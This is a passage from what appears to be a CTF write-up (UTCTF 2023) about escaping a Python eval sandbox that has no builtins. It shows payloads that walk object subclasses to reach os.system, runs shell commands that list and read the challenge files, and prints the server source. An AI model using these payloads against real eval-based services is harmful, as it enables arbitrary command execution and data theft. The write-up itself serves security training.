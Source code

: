 ```python
# Level 3 input
().__class__.__base__.__subclasses__()[132].__init__.__globals__["system"]("ls -la")

# Output
total 16
drwxrwx--T 2 server p3     4096 Mar 12 11:52 .
drwxrwxr-x 6 server server 4096 Mar 11 23:57 ..
-rw-r----- 1 server p3      435 Mar 11 23:57 problem.py
Result: 0.  The correct answer was 4128450524.


# Level 3 input
().__class__.__base__.__subclasses__()[132].__init__.__globals__["system"]("cat problem.py")

# Output
import random, os
password = open("password.txt").read()
os.remove("password.txt") # No more reading the file!

solution = random.getrandbits(32)

answer = input()
# What, the last one was too easy?  Now try it without builtins!
result = eval(answer, {"__builtins__": {}})

if result == solution:
    print(f"{result}, correct!  The password is '{password}'.")
else:
    print(f"Result: {result}.  The correct answer was {solution}.")

```

Great, we have the code. The problem now is to reach the builtin functions in order to call **getattr** and **\_\_import\_\_** again and retrieve the random number. The most common way is to reach the class  **\<class 'warnings.catch_warnings'\>** since it has the builtins within. We can see it within the base subclasses, on index 137:

<p align="center">
  <img src="/images/writeups/UTCTF2023/4_1_catch.png" width="50%"/>
</p>
